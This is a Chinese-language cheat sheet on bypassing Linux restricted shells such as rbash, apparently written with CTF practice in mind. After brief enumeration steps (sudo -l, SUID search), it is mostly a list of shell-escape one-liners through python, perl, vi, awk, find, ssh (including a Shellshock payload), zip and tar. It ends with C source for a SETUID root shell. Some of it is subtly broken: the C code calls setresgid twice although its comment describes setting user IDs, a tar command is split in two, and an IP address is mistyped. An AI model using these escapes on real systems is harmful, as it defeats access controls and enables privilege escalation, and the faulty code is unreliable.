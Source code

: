 ## 简介

> 受限制的Shell是出于安全考虑而创建的，主要用于限制用户对系统的访问权限和阻止/限制某些命令(如cd、ls、echo）。它通常在特定环境中使用，比如共享服务器、网络环境或受限的用户帐户。受限制的Shell可以阻止带有斜杠或输出重定向符号(如>、>>）的命令。常见的受限制的Shell类型有rbash、rksh和rsh。

但是，为什么有人会创建一个受限制的Shell呢？

1. 提高安全性
2. 阻止黑客/渗透测试人员
3. 有时系统管理员会创建一个受限制的Shell来保护自己免受危险命令的影响
4. 用于CTF挑战(Root-me/hackthebox/vulnhub）

## 枚举Linux环境

 枚举是最重要的部分。我们需要枚举Linux环境，以确定如何绕过rbash。我们需要进行以下枚举：

1. 检查可用的命令：执行cd、ls、echo等常见命令，确认它们是否可用。在受限制的Shell中，可能会有一些命令被限制或禁用。
   - 检查cd命令：`cd ~`，将当前目录切换到用户的主目录。
   - 检查ls命令：`ls`，列出当前目录中的文件和文件夹。
   - 检查echo命令：`echo "Hello, World!"`，输出字符串"Hello, World!"。
2. 检查操作符：了解可用的操作符，如>、>>、<、|等。某些受限制的Shell可能会限制或禁用特定的操作符。
   - 检查>操作符：`echo "Text" > file.txt`，将字符串"Text"写入到file.txt文件中。
   - 检查>>操作符：`echo "More text" >> file.txt`，将字符串"More text"追加写入到file.txt文件中。
   - 检查<操作符：`cat < file.txt`，从file.txt文件中读取内容并输出。
   - 检查|操作符：`ls | grep "txt"`，将ls命令的输出通过管道传递给grep命令，过滤包含"txt"的行。
3. 检查可用的编程语言：探索可用的编程语言，如perl、ruby、python等。这些语言常常提供了强大的功能，可以用于绕过受限制的Shell。
   - 检查Perl语言：perl -e 'print "Hello, Perl!\n"'，执行Perl代码并输出字符串"Hello, Perl!"。
   - 检查Ruby语言：ruby -e 'puts "Hello, Ruby!"'，执行Ruby代码并输出字符串"Hello, Ruby!"。
   - 检查Python语言：python -c 'print("Hello, Python!")'，执行Python代码并输出字符串"Hello, Python!"。
4. 查看sudo权限：使用sudo -l命令检查当前用户是否具有以root身份运行某些命令的权限。这可能提供了以root权限执行某些命令的机会。
   - 检查当前用户的sudo权限：`sudo -l`，显示当前用户可以以root身份运行的命令列表。
5. 检查SUID权限的文件或命令：查找具有SUID权限的文件或命令，这些文件可以以文件所有者的权限而不是当前用户的权限来执行。
   - 检查SUID权限的文件：`find / -perm /4000`，查找系统中具有SUID权限的文件，并列出它们的路径。

6. 检查当前所使用的Shell：执行echo $SHELL命令，确认当前所使用的Shell是否为受限制的Shell，如rbash。这将有助于了解当前的环境限制。
   - 检查当前Shell：`echo $SHELL`，显示当前使用的Shell。

7. 检查环境变量：运行env或printenv命令，查看当前的环境变量设置。这可以提供关于系统配置和可能的漏洞的信息。
   - 查看所有环境变量：`env`或`printenv`，显示当前的环境变量设置。

## 常见的攻击技术 

现在让我们看一些常见的攻击技术。

1. `echo os.system('/bin/bash')`
2. `python -c 'import pty;pty.spawn("/bin/sh")'`
3. `/bin/sh -i`
4. `perl —e 'exec "/bin/sh";'`
5. `perl: exec "/bin/sh";`
6. `ruby: exec "/bin/sh"`
7. `lua: os.execute('/bin/sh')`
8. IRB:`exec "/bin/sh"`
9. vi:
   1. `:!bash`
   2. `:set shell =/bin/bash:shell`

10. `awk 'BEGIN {system("/bin/sh or /bin/bash")}'`
11. `find / -name test -exec /bin/sh or /bin/bash \;`
12. ssh:
    `ssh username@IP – t "/bin/sh" or "/bin/bash"`
    `ssh username@IP -t "bash –noprofile"`
    `ssh username@IP -t "() { :; }; /bin/bash" (shellshock)`
    `ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)`
13. 如果允许使用"/"，可以运行`/bin/sh`或`/bin/bash`。
14. 如果可以运行cp命令，可以将`/bin/sh`或`/bin/bash`复制到您的目录中。
15. 从ftp > `!/bin/sh or !/bin/bash `
16. 从gdb > `!/bin/sh or !/bin/bash `
17. 从more/man/less > `!/bin/sh or !/bin/bash `
18. 从vim > `!/bin/sh or !/bin/bash `
19. 从rvim > `python import os; os.system("/bin/bash") `
20. 从scp > `scp -S /path/yourscript x y:`
21. 从awk > `awk 'BEGIN {system("/bin/sh or /bin/bash")}'`
22. 从find > `find / -name test -exec /bin/sh or /bin/bash ;`
23. git帮助状态下通过`!/bin/bash`进入交互式shell
24. `pico -s "/bin/bash"`进入编辑器写入`/bin/bash`然后按ctrl + T键
25. `zip /tmp/test.zip /tmp/test -T –unzip-command="sh -c /bin/bash"`
26. `tar cf /dev/null testfile –checkpoint=1 –`
27. `checkpointaction=exec=/bin/bash`

## 编程语言技术

 现在，让我们看一些编程语言技术。 

1. 从expect > `except spawn sh then sh`。 
2.  从python > `python -c 'import os; os.system("/bin/sh")' `
3. 从php > `php -a then exec("sh -i"); `
4. 从perl > `perl -e 'exec "/bin/sh";' `
5. 从lua > `os.execute('/bin/sh')` 
6. 从ruby > `exec "/bin/sh" `

## 高级技术 

现在让我们进入一些比较高级且不那么正当的技术。 

1. 从ssh > `ssh username@IP -t "/bin/sh"或"/bin/bash" `

2. 从ssh2 > `ssh username@IP -t "bash --noprofile" 3）`

3. 从ssh3 > `ssh username@IP -t "() { :; }; /bin/bash"(shellshock)`

4. 从ssh4 > `ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 27.0.0.1(SUID)`

5. 从git > git help status > 然后可以执行`! /bin/bash`

6.  从pico > `pico -s "/bin/bash"`，然后您可以写入`/bin/bash`，然后按下`CTRL + T`

7. 从zip > `zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash" `

8. 从tar > `tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash` 

9. C SETUID SHELL:

   ```c
   #include <stdlib.h>   // 包含标准库头文件，提供通用工具函数
   #include <unistd.h>   // 包含POSIX操作系统API的头文件，例如提权函数
   #include <stdio.h>    // 包含输入输出函数的头文件
   
   int main(int argc, char **argv, char **envp) {
       setresgid(getegid(), getegid(), getegid());   // 设置真实组ID、有效组ID和保存组ID都为当前进程的组ID
       setresgid(geteuid(), geteuid(), geteuid());   // 设置真实用户ID、有效用户ID和保存用户ID都为当前进程的用户ID
       
       execve("/bin/sh", argv, envp);   // 使用execve函数执行/bin/sh，启动一个新的shell进程
       return 0;   // 返回0表示程序执行成功
   }
   ```

## 文献

  - [受限Shell挑战](https://www.root-me.org/zh/%E6%8C%91%E6%88%98/%E5%BA%94%E7%94%A8%E7%A8%8B%E5%BA%8F-%E8%84%9A%E6%9C%AC/Bash-Restricted-shells)
  - [linux-restricted-shell-bypass-guide](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
  - [Shell-逃逸Linux各种Shell来执行命令](https://www.lshack.cn/653/)
  - [Multiple Methods to Bypass Restricted Shell](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/)